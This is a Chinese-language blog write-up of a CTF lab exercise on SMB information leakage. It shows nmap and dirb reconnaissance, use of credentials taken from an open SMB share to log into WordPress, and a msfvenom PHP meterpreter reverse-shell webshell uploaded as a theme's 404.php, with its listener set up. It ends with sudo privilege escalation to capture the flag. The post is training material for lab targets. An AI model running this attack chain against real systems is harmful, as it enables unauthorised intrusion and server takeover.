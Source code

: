 ```yaml
---
title: 【网络安全0x03】SMB信息泄露
date: 2020-05-14 15:23:08
tags: [网络安全, nmap, dirb, metasploit, webshell]
---
```


51CTO的网课，本篇针对SMB协议弱点分析，登录共享目录查找敏感文件；针对HTTP协议弱点分析，寻找突破点，登录后台上传webshell，提权获取flag。

本篇使用工具nmap、dirb、metasploit、webshell。

<!-- more -->

# 使用命令

## nmap

* 探测靶场开放的服务与服务的版本
``` bash
-- nmap -sV 靶场IP地址
```

* 探测靶场全部信息
``` bash
-- nmap -A -v -T4 靶场IP地址
```

## dirb

* 挖掘靶场网站敏感信息

``` bash
dirb 靶场IP地址
```

## smbclient

* 空口令/弱口令尝试登录，获取敏感文件

``` bash
smbclient -L 靶机IP
smbclient '\\靶机IP\share'
get 敏感文件
```

* 针对SMB协议远程溢出漏洞进行分析

``` bash
searchsploit samba版本号
```

## mysql

* 登录

``` bash
mysql -h 靶机IP -u Admin -p 口令
```

## metasploit

* 启动监听

``` bash
msfconsole
>use exploit/multi/handler
>set payload php/meterpreter/reverse_tcp
>set lhost 攻击机IP
>set lport 攻击机端口
>run
```

## webshell

* 生成webshell

``` bash
#制作webshell
msfvenom -p php/meterpreter/reverse_tcp lhost=攻击机IP lport=监听端口 -f raw > /root/Desktop/shell.php
```

* 上传webshell

``` bash
#使用找到的敏感信息登录后台，上传并执行webshell
#获得反弹的shell--WordPress上传theme 404.php
http://靶机IP/wordpress/wp-content/themes/twentyfifteen/404.php
```

## shell优化

* 优化会话显示带用户、目录的命令行界面

``` bash
python -c "import pty;pty.spawn('/bin/bash')"
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口、系统信息等：

``` bash
nmap -sV 192.168.1.113
nmap -A -v -T4 192.168.1.113
```

![](./1053/1.PNG)

![](./1053/2.PNG)

2. 访问smb服务，搜集敏感信息，share共享文件夹里可能有敏感信息：

``` bash
smbclient -L 192.168.1.113
smbclient '\\192.168.1.113\share'
get 敏感文件
```

![](./1053/3.PNG)

3. 都查看一下，找到两个敏感文件`\share\deets.txt`和`\share\wordpress\wp-config.php`：

![](./1053/4.PNG)

![](./1053/5.PNG)

4. 利用搜集到的秘钥尝试连接mysql和ssh，均被拒绝：

![](./1053/6.PNG)

5. smb协议也可以用metasploit搜索可利用漏洞，这里无可利用漏洞：

``` bash
searchsploit Samba smbd 3.X - 4.X
searchsploit Samba smbd 4.3.11-Ubuntu
```

![](./1053/7.PNG)

6. dirb搜索目录，查找可利用文件，找到了登录后台：

``` bash
dirb http://192.168.1.113
```

![](./1053/8.PNG)

7. 尝试使用前面的mysql密码成功登录：

![](./1053/9.PNG)

8. 生成反弹webshell脚本：

``` bash
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.114 lport=4444 -f raw > /root/Desktop/shell.php
```

![](./1053/10.PNG)

9. metaspolit开启监听：

``` bash
msfconsole
>use exploit/multi/handler
>set payload php/meterpreter/reverse_tcp
>set lhost 192.168.1.114
>set lport 4444
>run
```

![](./1053/11.PNG)

10. 网页后台上传webshell：

``` bash
#使用找到的敏感信息登录后台，上传并执行webshell
#获得反弹的shell--WordPress上传theme 404.php
http://靶机IP/wordpress/wp-content/themes/twentyfifteen/404.php
```

![](./1053/12.PNG)

11. 访问404网页，可以看到反弹shell成功：

![](./1053/13.PNG)

12. 进入shell，优化输入，尝试切换root用户，失败：

``` bash
python -c "import pty;pty.spawn('/bin/bash')"
```

![](./1053/14.PNG)

13. 查看用户组，发现**togie**在`/home`目录下，是一个用户：

``` bash
cat /etc/passwd
```

![](./1053/15.PNG)

14. 切换到用户**togie**，密码是前面第3步搜集到的`12345`，查看权限，提权：

``` bash
su togie
sudo -l
sudo su
```

![](./1053/16.PNG)

15. 提权成功，切换到根目录，拿到flag：

![](./1053/17.PNG)

# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)
2. [3-1CTF夺旗入门教程--SMB信息泄露](https://blog.csdn.net/m0_46622606/article/details/105107489)